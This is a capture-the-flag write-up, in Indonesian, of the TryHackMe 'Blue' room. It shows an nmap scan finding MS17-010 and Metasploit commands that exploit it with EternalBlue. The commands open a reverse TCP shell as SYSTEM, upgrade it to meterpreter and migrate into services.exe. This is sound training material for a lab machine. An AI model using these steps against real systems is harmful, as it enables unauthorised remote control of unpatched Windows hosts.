 # CTF Blue
- TryHackMe Room: https://tryhackme.com/room/blue
- IP Machine: 10.10.88.234

## Nmap Report
- Baris perintah: `nmap -sV --script vuln <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV --script vuln 10.10.88.234 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 02:38 EDT
Nmap scan report for 10.10.88.234
Host is up (0.20s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.80 seconds
```
- Dari hasil scanning, diketahui bahwa service SMB memiliki jenis kerentanan **ms17-010**


## Metasploit
- Buka `msfconsole` di terminal

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%201.JPG)

- Cari modul untuk exploit jenis kerentanan ms17–010 dengan perintah `search ms17–010`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%202.JPG)

- Disini kita menggunakan modul **exploit/windows/smb/ms17_010_eternalblue** yang ada di list nomor 0. Jadi cukup gunakan perintah `use 0`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%203.JPG)

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%204.JPG)

- Gunakan perintah `set <Nama parameter> <Value>` untuk mengisi parameter. Isi parameter RHOSTS dengan IP Machnine dan isi parameter LHOST dengan IP tun0 pada komputer yang anda gunakan. Kemudian setting payload `set payload windows/x64/shell/reverse_tcp` sesuai petunjuk soal

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%205.JPG)

- Ketik `exploit` untuk memulai proses exploitasi

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%206.JPG)

- Proses exploitasi berhasil dan kita masuk sebagai **nt authority\system**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%207.JPG)

- Tekan **Ctrl+Z** lalu ketik "y" untuk mengubah session 1 ke background

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%208.JPG)

- Cari modul untuk mengkonversi shell sistem ke shell meterpreter di metasploit. Kita bisa gunakan perintah `search shell_to_meterpreter`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%209.JPG)

- Karena hanya ada 1 modul, langsung kita gunakan modul tersebut dengan perintah `use 0`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2010.JPG)

- Ketik `show options` untuk melihat daftar parameter yang perlu diisi pada modul tersebut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2011.JPG)

- Gunakan perintah `set <Nama parameter> <Value>` untuk mengisi parameter. Isi parameter LHOST dengan IP tun0 pada komputer yang anda gunakan dan parameter SESSION dengan 1

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2012.JPG)

- Ketik `exploit` untuk memulai proses exploitasi. Proses exploitasi berhasil dan ketikkan `sessions` untuk melihat daftar session yang berhasil terbentuk

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2013.JPG)

- Masuk ke session 2 dengan perintah `sessions -i <nomor session>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2014.JPG)

- Ketik `ps` untuk melihat daftar proses yang berjalan di server sesuai arahan tugas. Disini ditemukan program services.exe yang berjalan di PID 672

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2015.JPG)

- Lakukan migrate dengan perintah `migrate <PID>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Blue/assets/b%2016.JPG)